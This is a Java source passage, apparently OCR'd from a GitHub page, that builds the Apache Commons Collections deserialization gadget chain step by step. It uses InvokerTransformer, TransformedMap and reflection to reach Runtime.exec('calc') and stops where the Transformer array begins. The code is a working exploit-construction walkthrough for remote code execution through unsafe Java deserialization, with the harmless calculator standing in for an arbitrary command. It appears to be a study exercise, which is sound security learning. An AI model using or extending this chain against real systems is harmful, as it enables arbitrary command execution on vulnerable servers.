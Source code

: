 ```java
    public static void main(String[] args) throws IOException, AlreadyBoundException, ClassNotFoundException, InvocationTargetException, InstantiationException, IllegalAccessException, NoSuchMethodException {
        //Hello h = new HelloImp();
        Registry r = LocateRegistry.createRegistry(5641);

        //this is unserializable, we need to let it be serializable
        //Runtime.getRuntime().exec("calc", null);
        Runtime ru = Runtime.getRuntime();

        //transform
//        Class c = Runtime.class;
//        Method execMethod = c.getMethod("exec", String.class);
//        execMethod.invoke(ru, "calc");

        //first calc pop up
        InvokerTransformer _invokerTransformer = new InvokerTransformer("exec", new Class[]{String.class}, new Object[]{"calc"});
        //invokerTransformer.transform()
        HashMap<Object, Object> _map = new HashMap<>();
        _map.put("payload", "try");
        //TransformedMap.checkSetValue(Object value) {
        //        return this.valueTransformer.transform(value);
        //    }
        Map<Object, Object> _transformedMap = TransformedMap.decorate(_map, null, _invokerTransformer);


        //this.parent.checkSetValue(value);
//        public Object setValue(Object value) {
//            value = this.parent.checkSetValue(value);
//            return this.entry.setValue(value);
//        }
        //second calc pop up
        for(Map.Entry entry:_transformedMap.entrySet()){
            entry.setValue(ru);
        }


        //Although Runtime is not serializable, Class is serializable
        Class c = Runtime.class;
        Method _getRuntimeMethod = c.getMethod("getRuntime", null);
        Runtime _runtime = (Runtime) _getRuntimeMethod.invoke(null, null);
        Method _execMethod = c.getMethod("exec", String.class);
        //third
        _execMethod.invoke(_runtime, "calc");

        ////Use Transform to implement this
        Runtime.getRuntime().exec("calc");
        //Method = Runtime.getRuntime()
        Method getRuntimeMethod = (Method) new InvokerTransformer("getMethod", new Class[]{String.class, Class[].class}, new Object[]{"getRuntime", null}).transform(Runtime.class);
        //Runtime = Method -> Runtime.getRuntime()
        Runtime runtime = (Runtime) new InvokerTransformer("invoke", new Class[]{Object.class, Object[].class}, new Object[]{null, null}).transform(getRuntimeMethod);
        //Runtime.exec("calc") -> Runtime.getRuntime().exec("calc")
        //public Process exec(String command, String[] envp) throws IOException
        new InvokerTransformer("exec", new Class[]{String.class}, new Object[]{"calc"}).transform(runtime);

        //until now, four calculators should pop up
        //next, we need to wrap them up
        Transformer[] transformers = new Transformer[]{
```